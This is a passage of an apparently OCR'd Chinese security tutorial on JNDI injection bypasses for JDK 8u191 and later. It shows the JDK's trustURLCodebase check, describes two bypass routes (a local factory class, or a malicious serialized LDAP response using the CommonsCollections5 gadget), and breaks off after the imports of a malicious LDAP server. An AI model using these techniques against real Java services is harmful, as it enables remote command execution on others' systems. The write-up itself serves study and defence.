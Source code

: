 如果trustURLCodebase为false则直接返回null



java

```java
public Class<?> loadClass(String className, String codebase)
        throws ClassNotFoundException, MalformedURLException {
    if ("true".equalsIgnoreCase(trustURLCodebase)) {
        ClassLoader parent = getContextClassLoader();
        ClassLoader cl =
                URLClassLoader.newInstance(getUrlArray(codebase), parent);

        return loadClass(className, cl);
    } else {
        return null;
    }
}
```

### JDK >= 8u191

关于JDK >= 8u191的利用目前公开有两种绕过的方法，**这里测试的JDK版本为JDK 8u201**



java

```java
两种绕过⽅法如下： 

1、找到⼀个受害者本地 CLASSPATH 中的类作为恶意的 Reference Factory 工厂类, 并利用这个本地的 Factory 类执行命令. 

2、利⽤ LDAP 直接返回⼀个恶意的序列化对象, JNDI 注⼊依然会对该对象进⾏反序列化操作, 利用反序列化 Gadget 完成命令执行. 
这两种⽅式都依赖受害者本地 CLASSPATH 中环境, 需要利⽤受害者本地的 Gadget 进行攻击
```

#### 通过反序列化

通过反序列化，那么前提是客户端得有可用的Gadgets

服务端参考marshalsec.jndi.LDAPRefServer，简单修改一下即可，这里使用的Gadget是**CommonsCollections5**



java

```java
package JNDI;

import com.unboundid.ldap.listener.InMemoryDirectoryServer;
import com.unboundid.ldap.listener.InMemoryDirectoryServerConfig;
import com.unboundid.ldap.listener.InMemoryListenerConfig;
import com.unboundid.ldap.listener.interceptor.InMemoryInterceptedSearchResult;
import com.unboundid.ldap.listener.interceptor.InMemoryOperationInterceptor;
import com.unboundid.ldap.sdk.Entry;
import com.unboundid.ldap.sdk.LDAPResult;
import com.unboundid.ldap.sdk.ResultCode;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import javax.management.BadAttributeValueExpException;
import javax.net.ServerSocketFactory;
import javax.net.SocketFactory;
import javax.net.ssl.SSLSocketFactory;
import java.io.ByteArrayOutputStream;
```